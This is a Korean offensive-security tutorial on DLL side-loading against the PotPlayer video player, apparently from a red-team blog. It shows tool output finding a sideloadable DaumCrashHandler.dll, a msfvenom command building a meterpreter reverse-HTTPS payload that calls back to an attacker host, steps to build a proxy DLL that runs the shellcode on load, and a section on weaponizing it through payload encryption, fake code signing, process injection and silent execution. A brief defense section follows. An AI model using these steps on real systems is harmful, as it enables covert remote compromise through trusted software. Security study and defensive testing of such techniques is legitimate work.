


# DLL 사이드로딩 (DLL Side-Loading)

DLL 사이드로딩 (DLL Side-Loading)은 기본적으로 DLL 하이재킹 (DLL Search Order Hijacking) 과 비슷하지만, 조금 다른 기법이다. 윈도우에서 특정 프로그램들은 실행될 때 런타임 중 DLL을 불러와 필요한 코드를 실행한다. 이 때 이름은 같지만 공격자가 생성한 DLL을 프로그램 실행파일 (`.exe` ) 과 같은 디렉토리에 둬 공격자의 DLL이 로드되어 코드를 실행하도록 하는 공격이다.&#x20;

DLL 사이드로딩은 DLL 프록시로딩 (DLL Proxy Loading)이라고도 불리는데, 이는 로딩된 공격자의 DLL 맨 처음 Attach 될 때 실행하는 악성코드를 제외하고 프로그램이 요청하는 모든 DLL 함수들을 실제 DLL에게 모두 프록시 해 실행하기 때문이다. 어떻게 보면 DLL 중간자  공격과 비슷한 개념이다. 이 때문에 프로그램의 입장에서는 비록 공격자의 DLL이 불려와졌다곤 해도, 필요한 DLL 함수들은 실제 DLL에서 제대로 다 불러와 쓰기 때문에 프로그램이 크래시 되지 않는다.&#x20;

&#x20;



### 실습&#x20;

실습은 K사의 32비트 기반 동영상 플레이어 프로그램을 기반으로 진행한다. 이와 관련된 연구는 이미 [2019년도에 공개](https://github.com/mandiant/DueDLLigence)되었으며, DLL 사이드로딩은 제로데이가 아닌 윈도우의 기능을 이용하는 방법일 뿐임을 알린다. **심지어 마이크로소프트사에서는 이를 취약점으로 인정하지 않기 때문에 패치도 없다!** 연구자들이 발표한 특정 DLL의 사이드로딩은 패치가 되어 막혔지만, 다른 라이브러리를 사이드로딩해 이를 우회할 수 있다.&#x20;

#### DLL 사이드로딩 정보 수집&#x20;

먼저 ConsciousHacker의 [WFH툴](https://github.com/ConsciousHacker/WFH)을 이용해 PE바이너리가 어떤 라이브러리들을 로딩하는지, 그 라이브러리들 중 어떤 라이브러리가 사이드로딩이 가능한지 확인한다.&#x20;

```
PS C:\opt\WFH> python .\wfh.py -t "C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe" -m dll
==================================================
Running Frida against C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe
--------------------------------------------------
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll, LPCSTR: PreprocessCmdLineExW
        < ... >
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: SetCrashHandler
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: GetCrashHandler
        < ... >
```

이외에도 `DllMain` 과 `DllExport` 가 모두 사용 가능한 라이브러리들이 많이 나오지만, 일단 `PotPlayer.dll` 과 `DaumCrashHandler.dll` 에 주목한다. `PotPlayer.dll` 은 공개된 연구 이후 패치를 더해 사이드로딩이 막혔지만, `DaumCrashHandler.dll` 은 사이드로딩이 가능하다. 사이드로딩이 가능하다는 정보를 수집했으니 쉘코드와 프록시 DLL 생성 단계로 넘어간다.&#x20;

#### 프록시 DLL 생성&#x20;

DLL 생성 전, 공격에 사용될 쉘코드를 만든다. .NET 어셈블리를 donut 형태로 만들수도 있지만, 간단한 PoC를 위해 msfvenom을 이용해 meterpreter 쉘코드를 작성한다. 32비트 기반 프로그램과 DLL이기 때문에 쉘코드도 x86로 만든다.&#x20;

```
msfvenom -p windows/meterpreter/reverse_https -f raw lhost=192.168.40.182 lport=443 -o meter-x86.bin
```

이후 DLL과 쉘코드를 한 디렉토리에 옮긴 뒤, FlangVik의 [SharpDLLProxy툴](https://github.com/Flangvik/SharpDllProxy)을 이용해 프로그램에 로드가될 공격자의 프록시 DLL을 생성한다.&#x20;

```
# .\SharpDllProxy.exe --dll .\DaumCrashHandler.dll --payload .\meter-x86.bin

< ... > 

# ls


    Directory:
    C:\opt\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_DaumCrashHandler


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2022   6:35 PM           2444 DaumCrashHandler_pragma.c
-a----          7/1/2022   6:35 PM         131232 tmp4405.dll
```

그러면 DLL 1개와 `.c` 소스코드 1개가 생긴다. 이 `tmp4405.dll` 이라는 파일은 이름이 바뀐 원래 `DaumCrashHandler.dll` 파일이다. 프록시 DLL이 될 파일은 `DaumCrashHandler_pragma.c` 이며, VS나 MVSC, CMake 등을 이용해 컴파일 해서 DLL로 만들면 된다.&#x20;

이제 준비된 파일들은 다음과 같다:&#x20;

* PotPlayerMini.exe - 실제로 실행될 PE 바이너리&#x20;
* tmp4405.dll - 원래 `DaumCrashHandler.dll` 파일. 이름만 바뀐 형태다.&#x20;
* DaumCrashHandler.dll - 공격자가 생성해낸, attach 시 쉘코드를 실행하는 프록시 DLL
* meter.bin - raw 형태의 쉘코드 파일. DaumCrashHandler.dll 가 attach이 이 쉘코드가 실행된다.&#x20;
* PotPlayer.dll - PotPlayerMini.exe가 실행할 때 꼭 필요한 라이브러리&#x20;

이제 이를 실행시키면 다음과 같은 형태로 코드 실행이 일어난다.&#x20;

1. PotPlayerMini.exe 파일이 실행되며 LoadLibrary를 이용해 DaumCrashHandler.dll 을 로드
2. DaumCrashHandler.dll 은 attach 되는 즉시 같은 디렉토리내의 meter.bin을 읽어와 실행&#x20;
3. PotPlayerMini.exe가 DaumCrashHandler.dll에서 사용하고 싶은 함수들은 모두 실제 DLL인 tmp4405.dll 에게 프록시되어 실행


암호화되지 않은, 기본적인 meterpreter 쉘코드와 인터넷에 공개되어 있는 PoC를 기반으로 실행한 DLL 사이드로딩의 결과는 다음과 같다.&#x20;



### 작전보안과 무기화&#x20;

위는 PoC 형태기 때문에 실제 작전에서 쓰이기에는 부족하다. 작전보안이나 무기화를 위해서는 다음과 같은 것들을 준비해야한다:&#x20;

1. meter.bin을 파일시스템에 드랍하는 것이 아닌, 쉘코드 형태로 DaumCrashHandler.dll 안에 넣어서 실행&#x20;
2. meter.bin 쉘코드를 암호화 한 뒤, 런타임 중 복호화해 실행&#x20;
3. 프록시 dll인 DaumCrashHandler.dll 파일에 [LimeLighter](https://github.com/Tylous/Limelighter)등의 툴을 이용해 디지털 서명 부과&#x20;
4. 메인 프로세스에 쉘코드를 로드하는 방식이 아닌 프로세스 인젝션을 통해 다른 프로세스에 인젝션&#x20;
5. PotPlayerMini.exe, tmp4405.dll, DaumCrashHandler.dll, PotPlayer.dll을 타겟 호스트에 같이 드랍하기 편하도록 압축 + 암호화 진행. 이후, 초기 침투 페이로드에서 코드 실행을 이용해 압축을 풀고 복호화를 진행한 후, PotPlayerMini.exe의 창이 보이지 않도록 silent 하게 실행&#x20;

### 대응 방안&#x20;

DLL 사이드로딩의 경우 블루팀이 이를 막는 방법도 있지만, 근본적으로는 소프트웨어 개발자 분들이 이를 원천봉쇄해야한다. DLL manifest 파일을 생성해 정해진 이름과 해시값의 DLL만 프로그램에 로드될 수 있도록 하는 것이 좋다.&#x20;

엔드 유저의 입장에서는, 어쨌든 공격자는 초기 침투 이후에 DLL 사이드로딩 기법을 사용하기 때문에 공격자에게 초기 침투 기회 자체를 제공하지 않는 것이 좋다.&#x20;

더 자세한 대응 방안을 위해서는 아래 Fireeye사의 레퍼런스의 페이지 10\~11을 참고한다.&#x20;

### 레퍼런스&#x20;












